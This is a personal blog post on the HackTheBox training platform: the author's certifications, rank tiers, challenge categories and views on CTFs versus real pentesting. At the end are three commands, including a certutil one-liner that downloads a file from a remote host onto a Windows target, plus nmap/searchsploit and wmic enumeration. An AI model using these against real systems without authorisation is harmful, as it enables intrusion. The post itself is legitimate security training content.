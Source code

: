 ```yaml
---
layout:     post
title:      "HackTheBox (HTB) thoughts as Guru Rank"
#subtitle:   "Pentesting"
date:       2018-08-02
author:     "Tech"
header-img: "img/htb_final_dark.png"
tags:
    - RedTeam
    - Pentesting
    - Programming
    - Linux
---
```


![](/img/in-post/post-js-version/htb_final.png)

# HackTheBox (HTB) thoughts as Guru Rank :

Here are my random thoughts on HackTheBox, which will be known as HTB for the rest of the post.

## Background:
I completed the Offensive Security Certified Professional (OSCP) last year spring time. I shortly followed that by getting SecurityTube Linux Assembly Expert (SLAE), which started my prepration for Offensive Security Certified Expert (OSCE). During my SLAE course, I signed up for HTB as every other twitter post was about it. I solved two challenges and never logged back in. A few months go by and after drowning in OSCE prep, I needed a change of paste from living in shellcode all day. Under those circumstance, my official HTB journey began..

---

## Breaking Down HackTheBox

There are 7 ranks depending on completion of active machines and challenges:

- Noob >= 0%
- Script Kiddie > 5%
- Hacker > 20%
- Pro Hacker > 45%
- Elite Hacker > 70%
- Guru > 90% (My Rank)
- Omniscient = 100%

There are only 20 total machines that are active at one time, every week the oldest machine gets dropped and a new one gets added. There are a total of 57 challenges that cover the topics below:

- Reversing
- Crypto
- Stego
- Pwn
- Web
- Misc
- Forensics
- Mobile

---

## Omniscient?!

From start to end, my journey started with Noob rank (as everyone) and in a short three weeks ended with GURU rank. With that, I completed all 20/20 machines and 41 of the 57 challenges. I thought about going for omniscient, 16 challenges would only need to be completed.

I decided to move on from HTB at this point. Calculating my time, experience gain from the 16 left challenges and ROI on real life usefulness... Guru is alright with me.

I'm currently rank 60th place out of 50,000 registered members worldwide (as of JUNE 2018) & 6th Place for United States.

## My thoughts..

There's something that needs to be said, HTB vs the Real-World.

As a OSCP holder and a full time red team / penetration tester, some of the machines and challenges on HTB are out of scope to real life situations. It's awesome to learn new tricks and techniques as someone in the field, but none of this is going to help me on the daily really.

Someone on HTB once said:

> "That being said I wouldn't ever use a person's CTF History as an indicator of skill. It would be used for a willingness to learn outside of work hours which is probably more important."

These are not ALL going to be applicable in the real world but they are important to the creative thinking and other aspects of what pen-testing involves and therefore still worth your time to do them.

## Overall
This field were all in is everlearning. I believe HackTheBox is a great platform for all types of skill levels and even OSCP holders. They have a wide varity of machines for all levels of skill. I personally learn quite a few things and would like to leave some commands here..

```
 cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
 ```
 -- Getting code execution with certutil (used here to download file)

 ```
 nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
 ```
 -- Checks all results in Nmap's XML output with service version

 ```
 cmd.exe /c wmic service where started=true get name, startname
 ```
 -- List all started services only.
